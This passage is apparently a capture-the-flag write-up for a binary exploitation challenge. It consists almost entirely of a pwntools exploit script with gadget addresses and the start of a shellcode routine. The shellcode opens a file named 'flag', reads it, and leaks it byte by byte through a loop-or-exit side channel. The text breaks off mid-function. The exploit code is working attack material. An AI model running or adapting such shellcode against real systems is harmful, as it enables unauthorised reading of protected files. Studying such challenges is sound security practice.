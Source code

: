 [![](assets/1703640353-37b8aa7a88203faac3c00a1e87f26a29.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231225192021-9729a418-a317-1.png)

### exp

```bash
import os
import sys
import time
from pwn import *
from ctypes import *


#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

#context.log_level='debug'
context(os='linux', arch='amd64')

elf = ELF('./pwn')
syscall2=0x40118A
syscall=0x401060
rax_15 = 0x401193
main = 0x401421

def exp(dis,char):
    shellcode = asm('''
            mov r12,0x67616c66
            push r12
            mov rdi,rsp
            xor esi,esi
            xor edx,edx
            mov al,2
            syscall
            mov rdi,rax
            mov rsi,0x404500
            mov dl,0x40
            xor rax,rax
            syscall
            mov dl, byte ptr [rsi+{}]
            mov cl, {}
            cmp cl,dl
            jz loop
            mov al,60
            syscall
            loop:
            jmp loop
```